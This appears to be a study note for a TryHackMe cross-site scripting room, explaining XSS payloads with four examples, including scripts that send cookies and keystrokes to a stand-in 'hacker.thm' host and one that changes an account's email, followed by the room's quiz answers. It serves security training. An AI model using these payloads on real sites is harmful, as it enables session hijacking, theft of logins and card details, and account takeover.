 # [XSS Payloads](https://tryhackme.com/room/xssgi)

## What is a Payload?

- In XSS, the payload is the ***JavaScript code*** we wish to be executed on the targets computer. There are two parts to the payload, **<ins>the Intention and the Modification</ins>**.


- `The intention` is what you wish the JavaScript to actually do (some examples below), and `the modification` is the changes to the code we need to make it execute as every scenario is different.


## Here are some examples of XSS intentions 
- See all below mentioned scripts [here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/03%20-%20XSS%20Payloads/Payload%20List)

### 1. Proof of Concept (PoC)

- This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an ***alert box*** to pop up on the page with a string of text, for example:

  [<script>alert('XSS');</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20XSS%20Payloads/Payload%20List/1.%20POC.js)

### 2. Session Stealing

- Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, **base64** encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


  [<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20XSS%20Payloads/Payload%20List/2.%20SessionStealing.js)
  
### 3. Key Logger
  
- The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted **user logins or credit card details**.
  
  [<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20XSS%20Payloads/Payload%20List/3.%20KeyLogger.js)
  
### 4. Business Logic

- This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  [<script>user.changeEmail('attacker@hacker.thm');</script>](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20XSS%20Payloads/Payload%20List/4.%20BusinessLogic.js)

- Now that the email address for the account has changed, the attacker may perform a reset password attack.

# Answer the questions below

1. Which document property could contain the user's session token?
```
document.cookie
```

2. Which JavaScript method is often used as a Proof Of Concept?
```
alert
```

